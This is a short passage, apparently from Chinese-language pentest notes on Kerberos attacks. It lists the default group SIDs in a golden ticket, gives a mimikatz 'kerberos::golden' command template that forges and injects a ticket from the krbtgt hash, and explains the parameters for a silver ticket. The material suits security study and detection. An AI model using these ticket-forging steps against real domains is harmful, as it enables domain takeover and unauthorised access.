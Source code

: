 

黄金票据的默认组：
- Domain Users SID: S-1-5-21<DOMAINID>-513
- Domain Admins SID: S-1-5-21<DOMAINID>-512
- Schema Admins SID: S-1-5-21<DOMAINID>-518
- Enterprise Admins SID: S-1-5-21<DOMAINID>-519  (只有在林的根域中创建了伪造的票据并且使用/sids参数指定AD林中的管理员权限的情况下才会有效)
- Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520

```
kerberos::golden /admin:ADMIINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```
![](../img/kerberos.godlen.jpg)

##### 白银票据
白银票据是一个TGS（和TGT的格式类似），使用了目标服务账户（由SPN映射标识）的NTLM密码HASH来进行加密和签名，mimikatz使用`kerberos::golden`来创建一个白银票据，白银票据创建的是TGS服务，只能访问有限的服务。
创建白银票据必要的参数，其他参数和黄金票据一样
- /target	目标服务器的FQDN
- /service	目标服务器上运行的Kerberos服务，这里填运行该服务的主体的名称，比如cifs，http，mssql
- /rc4		目标服务器的NTLM HASH（计算机账户或者用户账户，**一般为计算机账户，比如计算机名为DC,那么就是要DC$的HASH**）
